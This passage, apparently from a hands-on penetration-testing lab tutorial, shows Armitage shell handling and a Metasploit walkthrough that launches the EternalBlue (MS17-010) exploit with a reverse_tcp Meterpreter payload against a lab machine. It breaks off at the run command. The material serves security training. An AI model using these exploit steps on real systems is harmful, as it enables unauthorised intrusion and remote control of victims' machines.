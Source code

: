 *A Successful Exploitation Attempt from Armitage*

After you receive your shell, right-click on the host and select "Interact".  This will open a standard shell you're familiar with. In order to get a  Meterpreter shell, we recommend that you run the  multi/manage/shell_to_meterpreter module.

![img](./assets/b08eff73b568e5d4ccc8d4be6a915b88.png)

*Compromised Host in Armitage*

Practice Time

Now that you have learned how to exploit hosts using Armitage, you will now get to practice your skills by hacking the virtual machine by using  Metasploit and Armitage. There are multiple exploit paths that you may  be able to follow. We encourage you to explore the various exploit paths you may be able to find in order to gain a better understanding of  exploitation and post-exploitation modules in Metasploit and Armitage.  As a reminder, Armitage is just Metasploit with a GUI; all the same  exploits exist and are categorized the same way.

<details open="">
<summary><span style="font-size:1.75rem">Need Some Help? Click here!</span>
</summary><span>
If you are having difficulties with compromising the machine, here's a 
step-by-step guide to compromise the VM with Metasploit. If you would 
like to use Armitage, use this&nbsp;</span><a href="https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing" target="_blank">guide that shows step-by-step </a>instructions. Now onto Metasploit!<br><br>Our first step is to launch Metasploit:<br>
<div class="terminal-container">
    <div class="terminal-content">
        <div class="terminal-top">
            Launching Metasploit and using Eternal Blue!
        </div>
        <pre class="terminal-code language-shell-session" tabindex="0">           <code class=" language-shell-session"><span class="token command"><span class="token info punctuation"><span class="token user">root@attackbox</span></span><span class="token shell-symbol important">$</span> <span class="token bash language-bash">msfconsole -q</span></span>
<span class="token output"><span>msf5 &gt; use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) &gt; set LHOST eth0
LHOST =&gt; eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) &gt; set RHOST VICTIM_IP
RHOST =&gt; VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) &gt; run
